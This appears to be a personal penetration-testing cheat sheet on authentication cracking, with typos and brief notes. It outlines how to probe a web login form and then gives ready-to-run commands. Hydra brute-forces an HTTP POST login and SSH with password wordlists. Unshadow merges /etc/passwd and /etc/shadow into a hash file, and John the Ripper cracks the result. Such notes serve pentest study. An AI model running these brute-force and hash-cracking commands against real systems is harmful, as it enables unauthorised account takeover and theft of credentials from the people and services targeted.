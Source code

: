
Authentication Cracking:

- Forms:
	
	- Check the parameters 

	- Check the method of submit (POST)

	- Where it sumbits


- Testing :

	- test the form with any user and password and see the results

	- what type of message the form sends back to the user

	- What happen to the URL when the submit button is clicked ? | Does it redirect to the the same page

Tools used :

- Hydra: use Hydra to bruteforece the login page of website(HTTP)


	>>$ hydra targetWebsite http-post-form "/login.php:user=^USER^&pwd=^PASS^:invalid credentials" -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-15.txt  -f -v


-f tells Hyrdra to stop after it founs the user and the pass



- Hydra: use to Bruteforce SSH login 


	>>$ hydra 192.168.2.4 ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-10.txt -f -v 

	


John

- Linux:

	- To get the Linux hashes, firt unshadow them and use John to crack them

	- unshadow it replace the [X] mark on the /etc/passwd with the actual hash 


### Unshadow:

	- unshadow /etc/passwd /etc/shadow > hashes.txt 

	hashes is the created files to dump all the hashes there



### John the Ripper:

	- john --wordlist=/usr/share/john/password.lst hashes

	- John --show hashes 



